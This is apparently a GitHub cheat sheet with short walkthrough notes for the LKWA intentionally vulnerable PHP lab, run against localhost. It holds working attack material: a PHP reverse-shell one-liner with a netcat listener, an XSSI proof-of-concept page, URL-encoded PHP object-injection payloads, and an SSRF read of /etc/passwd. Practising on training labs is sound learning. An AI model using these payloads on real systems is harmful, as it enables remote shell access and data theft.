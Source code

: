 # lkwa-cheatsheet

- my environment: macOS Catalina 10.15.6

Thanks [LKWA](https://github.com/weev3/LKWA).

## 0x01 – Blind RCE

try `sleep 5`

### Reverse Shell

- in my macOS Terminal
  - `nc -l your.server.ip.address 8888`
- in the Browser(text box)
  - `php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'`

## 0x02 – XSSI

you will find `api/user` in response body.  
try `curl http://localhost:3000/api/user`

### deploy tiny hacking server

```bash
mkdir xssi-server
cd xssi-server/
vi index.html
```

```html
<html>
  <head>
    <title>XSSI</title>
  </head>
  <body>
    <script>
      function a(s)
      {
        alert(JSON.stringify(s));
      }
    </script>
    <script src="http://localhost:3000/api/user"></script>
  </body>
</html>
```

deploy: `python3 -m http.server 3001`

access `http://localhost:3001/index.html` from browser.

<img src="https://github.com/fujiokayu/lkwa-cheatsheet/blob/master/evidence/0x02.png" width="200">

## 0x03 – PHP Object Injection

skip.  
I coudn't upload a shell.

## 0x04 – PHP Object Injection(cookie)

change cookie and inject php object as follow:  
O%3A3%3A%22Foo%22%3A1%3A%7Bs%3A3%3A%22cmd%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%0D%0A

## 0x05 – PHP Object Injection(Object Reference)

change request parameter input as follow:
O%3A7%3A%22Object1%22%3A2%3A%7Bs%3A5%3A%22guess%22%3BN%3Bs%3A10%3A%22secretCode%22%3BR%3A2%3B%7D%0D%0A

## 0x06 – PHAR Deserialization

## 0x07 – SSRF

current application directory is "/var/www/html".  
so let's try "http://localhost:3000/images/lkwa.png" to understand this api.  
  
this api also gets system files like "/etc/passwd".